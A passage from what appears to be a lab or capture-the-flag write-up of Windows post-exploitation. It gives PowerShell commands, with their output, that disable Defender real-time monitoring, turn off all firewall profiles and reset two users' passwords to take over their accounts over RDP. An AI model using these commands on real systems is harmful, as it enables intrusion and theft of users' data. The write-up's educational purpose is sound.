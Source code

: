 Same thing for the root.txt file in `c:\users\rupal\desktop\root.txt`

I found some cert and private key files on the D: drive

```
PS D:\certs> dir


    Directory: D:\certs


Mode                LastWriteTime         Length Name                          
----                -------------         ------ ----                          
-a----         7/1/2018  10:26 PM            772 MyCA.cer                      
-a----         7/1/2018  10:26 PM           1196 MyCA.pvk
```

I thought of googling for ways to recover EFS encrypted files but instead I just YOLOed it:

Attack plan:

- Disable Windows Defender
- Disable Firewall
- Change Rupal and Jorge's passwords
- RDP in and steal their shit

```
PS C:\> Set-MpPreference -DisableRealtimeMonitoring $true

PS C:\> NetSh Advfirewall set allprofiles state off
Ok.

PS C:\> net users rupal Yoloed1234!
net users rupal Yoloed1234!
The command completed successfully.

PS C:\> net users jorge Yoloed1234!
net users jorge Yoloed1234!
The command completed successfully.
```

Sweet, RDP is already running, no need to enable it:

```
PS C:\> netstat -an                
netstat -an                        
                                   
Active Connections                 
                                   
  Proto  Local Address          Foreign Address        State
  TCP    0.0.0.0:21             0.0.0.0:0              LISTENING
  TCP    0.0.0.0:80             0.0.0.0:0              LISTENING
  TCP    0.0.0.0:135            0.0.0.0:0              LISTENING
  TCP    0.0.0.0:445            0.0.0.0:0              LISTENING
  TCP    0.0.0.0:3389           0.0.0.0:0              LISTENING
```
